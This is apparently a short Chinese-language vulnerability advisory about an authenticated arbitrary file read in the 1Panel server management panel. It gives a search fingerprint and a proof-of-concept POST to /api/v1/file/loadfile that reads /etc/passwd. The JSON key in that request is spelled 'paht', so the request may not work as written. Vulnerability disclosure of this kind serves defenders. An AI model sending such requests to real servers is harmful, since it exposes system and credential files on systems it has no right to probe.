


# 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 是一个现代化、开源的Linux 服务器运维管理面板。

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

1Panel

## 网络测绘

```
"1Panel"
```

## 漏洞复现

登陆页面





验证POC

```
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```


